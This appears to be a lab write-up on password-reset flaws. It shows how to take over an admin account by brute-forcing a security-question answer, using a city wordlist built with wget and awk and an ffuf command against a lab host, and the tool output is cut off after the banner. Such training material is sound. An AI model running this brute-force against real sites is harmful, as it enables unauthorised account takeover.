 To prevent this vulnerability, keeping a consistent state during the entire password reset process is essential. Resetting an account's password is a sensitive process where minor implementation flaws or logic bugs can enable an attacker to take over other users' accounts. As such, we should investigate the password reset functionality of any web application closely and keep an eye out for potential security issues.

# Questions
---

![](cybersecurity/images/Pasted%2520image%252020250214164409.png)

Let's begin by visiting the website:

![](cybersecurity/images/Pasted%2520image%252020250214174940.png)

We can reset the password, let's see it:

![](cybersecurity/images/Pasted%2520image%252020250214175101.png)

We can enter the `admin` username for example:

![](cybersecurity/images/Pasted%2520image%252020250214175120.png)

We got a password reset question, this can be guessed through OSINT or even brute-force, for this exercise, let's bruteforce in the following way:

Let's begin by getting our file containing world cities:

```
wget https://raw.githubusercontent.com/datasets/world-cities/refs/heads/main/data/world-cities.csv
```

Now, we need to modify this file a bit, it contains the name of the city in the first field, we can filter it using this command:

```
awk -F'"?,"?' '{print $1}' world-cities.csv > city_wordlist.txt
```

Let's check the error response:

![](cybersecurity/images/Pasted%2520image%252020250214180001.png)

Now, we can use ffuf:

```
ffuf -w city_wordlist.txt -u http://94.237.50.242:40498/security_question.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=vaqmcll67v0s0aif4rtq0jiggq" -d "security_response=FUZZ" -fr "Incorrect response." -ic -c -t 200 
```

We get this output:

```
ffuf -w city_wordlist.txt -u http://94.237.50.242:40498/security_question.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=vaqmcll67v0s0aif4rtq0jiggq" -d "security_response=FUZZ" -fr "Incorrect response." -ic -c -t 200

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : POST
```